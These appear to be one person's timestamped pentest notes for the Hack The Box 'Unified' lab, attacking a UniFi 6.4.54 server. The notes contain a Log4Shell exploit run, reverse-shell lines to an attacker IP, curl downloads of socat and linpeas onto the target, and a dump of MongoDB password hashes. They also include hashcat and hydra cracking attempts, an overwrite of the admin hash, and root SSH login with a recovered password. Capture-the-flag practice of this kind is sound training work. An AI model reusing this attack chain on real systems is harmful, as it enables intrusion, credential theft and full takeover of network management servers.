 # https://app.hackthebox.com/starting-point

```bash
# https://tryhackme.com/room/blog

```bash

=================================
10.129.96.149 -- https://10.129.96.149:8443 -- win/lin x32/x64
=================================

echo 'export TARGET=10.129.96.149' >> ~/.zshrc

2025-08-20 13:22:41 -- sudo nmap -Pn -n -sC -sV -O -T4 -oA nmap_scan $TARGET
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)             
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)           
6789/tcp open  ibm-db2-admin?
8080/tcp open  http            Apache Tomcat (language: en)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.96.149:8443/manage
8443/tcp open  ssl/nagios-nsca Nagios NSCA
|_http-title: Site doesnt have a title (text/plain;charset=UTF-8).
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

https://10.129.96.149:8443/manage/account/login?redirect=%2Fmanage
// unifi 6.4.54
curl --insecure --location --output - https://$TARGET:8443
// exploit
https://github.com/puzzlepeaches/Log4jUnifi

https://github.com/puzzlepeaches/Log4jUnifi?tab=readme-ov-file#install

### SPLOITIN TIME ###
nc -lvnp 4444
2025-08-20 14:31:34 -- docker run -it -v $(pwd)/loot:/Log4jUnifi/loot -p 8090:8090 -p 1389:1389 log4junifi -u https://10.129.96.149:8443 -i 10.10.15.115 -p 4444
// need to upgrade shell

nc -vlnp 54321
/bin/bash -i >& /dev/tcp/10.10.15.115/54321 0>&1

// attacker
cd /tmp
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
ip a ; python3 -m http.server 8000

// target
curl -o socat http://10.10.15.115:8000/socat
chmod +x socat
-rwxr-xr-x 1 unifi unifi 375176 Aug 20 20:07 socat

// attacker
socat file:`tty`,raw,echo=0 tcp-listen:54322

// target
2025-08-20 15:10:21 -- /tmp/socat tcp-connect:10.10.15.115:54322 exec:'bash -li',pty,stderr,setsid,sigint,sane
// finally not shitty shell
// also shell upgrade:
script /dev/null -c bash

// no netstat or ss so... time to parse /proc/
{ printf "%-8s %-22s %-22s %-12s %s\n" "Proto" "Local Address" "Remote Address" "State" "PID/Program Name"; awk 'function hextodec(h,r,i,c,v){h=toupper(h);r=0;for(i=1;i<=length(h);i++){c=substr(h,i,1);if(c~/[0-9]/)v=c;else v=index("ABCDEF",c)+9;r=r*16+v}return r} function hextoip(h,ip,d1,d2,d3,d4){if(length(h)==8){d1=hextodec(substr(h,7,2));d2=hextodec(substr(h,5,2));d3=hextodec(substr(h,3,2));d4=hextodec(substr(h,1,2));return d1"."d2"."d3"."d4}if(length(h)>8){if(hextodec(h)==0)return"::";if(substr(h,1,24)=="0000000000000000FFFF0000"){h=substr(h,25,8);d1=hextodec(substr(h,7,2));d2=hextodec(substr(h,5,2));d3=hextodec(substr(h,3,2));d4=hextodec(substr(h,1,2));return"::ffff:"d1"."d2"."d3"."d4}return h}} NR>1{split($2,l,":");split($3,r,":");lip=hextoip(l[1]);lport=hextodec(l[2]);rip=hextoip(r[1]);rport=hextodec(r[2]);sm["01"]="ESTABLISHED";sm["0A"]="LISTEN";if($4 in sm){if(FILENAME~/tcp6/)p="tcp6";else p="tcp";printf"%-8s %-22s %-22s %-12s %s\n",p,lip":"lport,rip":"rport,sm[$4],$10}}' /proc/net/tcp /proc/net/tcp6 | while read proto laddr raddr state inode; do find_output=$(find /proc -path '*/fd/*' -lname "socket:\[$inode\]" -print -quit 2>/dev/null); if [ -n "$find_output" ]; then pid=$(echo "$find_output" | cut -d'/' -f3); pname=$(cat /proc/$pid/comm 2>/dev/null); printf "%-8s %-22s %-22s %-12s %s/%s\n" "$proto" "$laddr" "$raddr" "$state" "$pid" "$pname"; else printf "%-8s %-22s %-22s %-12s %s\n" "$proto" "$laddr" "$raddr" "$state" "-"; fi; done | sort -k4; }
//
Proto    Local Address          Remote Address         State        PID/Program Name
tcp6     :::22                  :::0                   LISTEN       -
tcp6     :::6789                :::0                   LISTEN       17/java
tcp6     :::8080                :::0                   LISTEN       17/java
tcp6     :::8443                :::0                   LISTEN       17/java
tcp6     :::8843                :::0                   LISTEN       17/java
tcp6     :::8880                :::0                   LISTEN       17/java
tcp      0.0.0.0:22             0.0.0.0:0              LISTEN       -
tcp      127.0.0.53:53          0.0.0.0:0              LISTEN       -
tcp      127.0.0.1:27117        0.0.0.0:0              LISTEN       67/mongod

unifi@unified:/tmp$ which mongosh                  
unifi@unified:/tmp$ which mongo
/usr/bin/mongo
2025-08-20 15:33:53 -- mongo --port 27117
2025-08-20T18:21:07.507+0100 I STORAGE  [initandlisten] 
2025-08-20T18:21:07.507+0100 I STORAGE  [initandlisten] ** WARNING: Using the XFS filesystem is strongly recommended with the WiredTiger storage engine
2025-08-20T18:21:07.507+0100 I STORAGE  [initandlisten] **          See http://dochub.mongodb.org/core/prodnotes-filesystem
2025-08-20T18:21:08.264+0100 I CONTROL  [initandlisten] 
2025-08-20T18:21:08.264+0100 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
2025-08-20T18:21:08.264+0100 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
2025-08-20T18:21:08.264+0100 I CONTROL  [initandlisten] 
2025-08-20 15:34:33 -- show dbs
ace       0.002GB
ace_stat  0.000GB
admin     0.000GB
config    0.000GB
local     0.000GB
2025-08-20 15:35:22 -- use ace
2025-08-20 15:35:26 -- show collections
2025-08-20 15:35:59 -- db.admin.find().pretty()
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
        "email" : "michael@unified.htb",
        "name" : "michael",
        "x_shadow" : "$6$spHwHYVF$mF/VQrMNGSau0IP7LjqQMfF5VjZBph6VUf4clW3SULqBjDNQwW.BlIqsafYbLWmKRhfWTiZLjhSP.D/M1h5yJ0",
        "email" : "seamus@unified.htb",
        "name" : "Seamus",
        "x_shadow" : "$6$NT.hcX..$aFei35dMy7Ddn.O.UFybjrAaRR5UfzzChhIeCs0lp1mmXhVHol6feKv4hj8LaGe0dTiyvq1tmA.j9.kfDP.xC.",
        "email" : "warren@unified.htb",
        "name" : "warren",
        "x_shadow" : "$6$DDOzp/8g$VXE2i.FgQSRJvTu.8G4jtxhJ8gm22FuCoQbAhhyLFCMcwX95ybr4dCJR/Otas100PZA9fHWgTpWYzth5KcaCZ.",
        "email" : "james@unfiied.htb",
        "name" : "james",
        "x_shadow" : "$6$ON/tM.23$cp3j11TkOCDVdy/DzOtpEbRC5mqbi1PPUM6N4ao3Bog8rO.ZGqn6Xysm3v0bKtyclltYmYvbXLhNybGyjvAey1",
2025-08-20 15:36:53 -- db.user.find().pretty()
// nothing

2025-08-20 15:39:06 -- find / -name "system.properties" 2>/dev/null
cat /path/to/your/system.properties```
// nothing interesting

$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.
$6$spHwHYVF$mF/VQrMNGSau0IP7LjqQMfF5VjZBph6VUf4clW3SULqBjDNQwW.BlIqsafYbLWmKRhfWTiZLjhSP.D/M1h5yJ0
$6$NT.hcX..$aFei35dMy7Ddn.O.UFybjrAaRR5UfzzChhIeCs0lp1mmXhVHol6feKv4hj8LaGe0dTiyvq1tmA.j9.kfDP.xC.
$6$DDOzp/8g$VXE2i.FgQSRJvTu.8G4jtxhJ8gm22FuCoQbAhhyLFCMcwX95ybr4dCJR/Otas100PZA9fHWgTpWYzth5KcaCZ.
$6$ON/tM.23$cp3j11TkOCDVdy/DzOtpEbRC5mqbi1PPUM6N4ao3Bog8rO.ZGqn6Xysm3v0bKtyclltYmYvbXLhNybGyjvAey1
2025-08-20 15:48:13 -- hashcat -m 1800 hashes.txt /usr/share/wordlists/rockyou.txt

unifi@unified:/tmp$ cat /home/michael/user.txt  
6ced1a6a89e666c0620cdb10262ba127

2025-08-20 15:54:48 -- hydra -l michael -P /usr/share/wordlists/rockyou.txt -t 4 ssh://$TARGET

2025-08-20 15:56:48 -- wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -O /tmp/linpeas.sh
python3 -m http.server 8000

cd /tmp
curl -o linpeas.sh http://10.10.15.115:8000/linpeas.sh
chmod +x linpeas.sh
2025-08-20 15:58:32 -- ./linpeas.sh -o system_information,container,cloud,procs_crons_timers_srvcs_sockets,network_information,users_information,software_information,interesting_perms_files,interesting_files | tee /tmp/linpeas_output.txt

### TASTY THINGS ###

╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation/sensitive-mounts.html       
═╣ release_agent breakout 1........ Yes                                     

╔══════════╣ Unix Sockets Analysis
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sockets                                                               
/run/unifi/mongodb-27117.sock                                               
  └─(Read Write Execute )

╔══════════╣ Users with console
root:x:0:0:root:/root:/bin/bash                                             
unifi:x:999:999::/home/unifi:/bin/sh

-rw-r--r-- 1 root root 2154 Mar 22  2019 /etc/mongodb.conf
-rw-r--r-- 1 1000 1000 3771 Dec 30  2021 /home/michael/.bashrc
-rw-r--r-- 1 1000 1000 807 Dec 30  2021 /home/michael/.profile
passwd file: /usr/share/lintian/overrides/passwd

╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                         
strace Not Found                                                            
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/gpasswd                    
-rwsr-xr-x 1 root root 59K Mar 22  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)  
-rwsr-xr-x 1 root root 44K Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 40K Mar 22  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 43K Sep 16  2020 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8                                 
-rwsr-xr-x 1 root root 27K Sep 16  2020 /bin/umount  --->  BSD/Linux(08-1996)                                                                           
-rwsr-xr-x 1 root root 44K Mar 22  2019 /bin/su

╔══════════╣ SGID
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid                                                         
-rwxr-sr-x 1 root tty 31K Sep 16  2020 /usr/bin/wall                        
-rwxr-sr-x 1 root shadow 23K Mar 22  2019 /usr/bin/expiry
-rwxr-sr-x 1 root shadow 71K Mar 22  2019 /usr/bin/chage
-rwxr-sr-x 1 root crontab 39K Nov 16  2017 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 34K Apr  8  2021 /sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root shadow 34K Apr  8  2021 /sbin/unix_chkpwd


###
    
socat tcp-listen:9001,fork file:unified_linpeas.txt
/tmp/socat tcp-connect:10.10.15.115:9001 file:/tmp/linpeas_output.txt

2025-08-20 17:23:03 -- openssl passwd -6 password123
$6$EZZcaCucfN.gPgmx$Zt12ljQqR.owE8PBeLE.4rR1bNIBETmCARCEQVz.IvjfZ/27IGrrz4ghif3WudJGcYAL00CcsWFeLncc.ft55/
@s1

###

2025-08-25 14:57:57 -- openssl passwd -6 password123
$6$9LzDn.aY5InMTT28$mmLCxUb8x0YIEi932lhnCxVR/6dB4utTkQt/sXhnCzL3OAvUED4aPol0.JC1OP5.ZtgV2EJMAt4js0RU1jdxw0

2025-08-25 14:59:45 -- mongo --port 27117    
use ace;
2025-08-25 15:00:08 -- db.admin.update({ "name" : "administrator" }, { $set: { "x_shadow" : "$6$9LzDn.aY5InMTT28$mmLCxUb8x0YIEi932lhnCxVR/6dB4utTkQt/sXhnCzL3OAvUED4aPol0.JC1OP5.ZtgV2EJMAt4js0RU1jdxw0" } });
// WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
exit;

2025-08-25 15:01:35 -- https://10.129.96.149:8443
// administrator:password123

https://10.129.96.149:8443/manage/site/default/settings/admins/list
administrator	administrator@unified.htb		Super Administrator	Device AdoptDevice Restart	
james	james@unfiied.htb		Read Only	System Stats	
michael	michael@unified.htb		Super Administrator	Device AdoptDevice Restart	
Seamus	seamus@unified.htb		Read Only		
warren	warren@unified.htb		Read Only

2025-08-25 15:04:13 -- https://10.129.96.149:8443/manage/site/default/settings/site
// root:NotACrackablePassword4U2022

2025-08-25 15:05:25 -- sshpass -p 'NotACrackablePassword4U2022' ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@10.129.96.149
// got root

2025-08-25 15:08:44 -- sudo find / -type f \( -name "user.txt" -o -name "root.txt" \) 2>/dev/null
/root/root.txt
/home/michael/user.txt
// pwned
```
```